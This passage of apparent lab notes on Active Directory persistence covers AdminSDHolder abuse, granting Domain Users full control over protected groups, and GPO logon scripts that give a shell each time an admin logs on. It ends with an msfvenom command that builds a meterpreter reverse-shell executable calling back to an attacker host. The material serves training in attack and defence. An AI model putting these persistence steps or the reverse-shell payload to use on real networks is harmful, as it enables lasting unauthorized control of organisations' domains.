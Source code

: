 Imagine combining this with the nesting groups of the previous task. Just as the blue team finished revoking your access through numerous group changes, 60 minutes later, you can just do it all again. Unless the blue team understands that the permissions are being altered through the AdminSDHolder group, they would be scratching their heads every 60 minutes. Since the persistence propagates through a legitimate AD service, they would most likely be none the wiser every time it happens. If you really want to persist, you can grant full control to the Domain Users group in the AdminSDHolder group, which means any low-privileged user would be granted full control over all Protected Groups. Combining this with a full DC Sync means the blue team will have to reset every single credential in the domain to flush us out completely.

![](../images/Pasted%20image%2020250527235402.png)


# Persistence through GPOs

---

The last persistence technique we will review is persistence through Group Policy Objects (GPOs). At this point, you should be familiar with GPOs based on all the different enumeration, attack, and exploitation techniques we have discussed. However, GPOs are also excellent for deploying persistence.  

Group Policy Management in AD provides a central mechanism to manage the local policy configuration of all domain-joined machines. This includes configuration such as membership to restricted groups, firewall and AV configuration, and which scripts should be executed upon startup. While this is an excellent tool for management, it can be targeted by attackers to deploy persistence across the entire estate. What is even worse is that the attacker can often hide the GPO in such a way that it becomes almost impossible to remove it.

## Domain Wide Persistence

The following are some common GPO persistence techniques:

- Restricted Group Membership - This could allow us administrative access to all hosts in the domain
- Logon Script Deployment - This will ensure that we get a shell callback every time a user authenticates to a host in the domain.  

There are many different hooks that can be deployed. You can play around with GPOs to learn about other hooks. Since we already used the first hook, Restricted Group Membership, in the Exploiting AD room. Let's now focus on the second hook. While having access to all hosts are nice, it can be even better by ensuring we get access to them when administrators are actively working on them. To do this, we will create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.

## Preparation

Before we can create the GPO. We first need to create our shell, listener, and the actual bat file that will execute our shell. Let's start by generating a basic executable shell that we can use:

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe   `  
